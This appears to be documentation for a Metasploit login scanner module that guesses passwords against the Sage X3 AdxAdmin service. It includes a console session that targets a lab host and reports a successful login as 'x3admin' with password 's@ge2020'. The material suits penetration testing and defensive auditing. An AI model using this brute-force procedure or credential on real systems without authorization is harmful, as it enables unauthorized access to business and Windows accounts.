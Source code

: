 ## Vulnerable Application

### Description

This module allows an attacker to perform a password guessing attack against
the Sage X3 `AdxAdmin` service, which in turn can be used to authenticate to
a local Windows account.

This module implements the `X3Crypt` function to 'encrypt' any passwords to
be used during the authentication process, given a plaintext password.

### Setup

Not available.

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Scenarios

### Sage X3 on Windows Server 2016

```
msf > use auxiliary/scanner/sage/x3_adxsrv_login
msf auxiliary(scanner/sage/x3_adxsrv_login) > options

Module options (auxiliary/scanner/sage/x3_adxsrv_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false            no        Add all passwords in the current database to the list
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   PASSWORD          s@ge2020         no        Plaintext password with which to authenticate
   PASS_FILE                          no        File containing passwords, one per line
   RHOSTS                             yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT             1818             yes       The target port (TCP)
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads (max one per host)
   USERNAME          x3admin          no        User with which to authenticate to the AdxAdmin service
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false            no        Try the username as the password for all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           true             yes       Whether to print output for all attempts

msf auxiliary(scanner/sage/x3_adxsrv_login) > set rhosts 172.16.57.6
rhosts => 172.16.57.6
msf auxiliary(scanner/sage/x3_adxsrv_login) > set rport 50000
rport => 50000
msf auxiliary(scanner/sage/x3_adxsrv_login) > run

[+] 172.16.57.6:50000 - 172.16.57.6:50000 - Success: 'x3admin:s@ge2020'
[*] 172.16.57.6:50000 - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/sage/x3_adxsrv_login) >
```
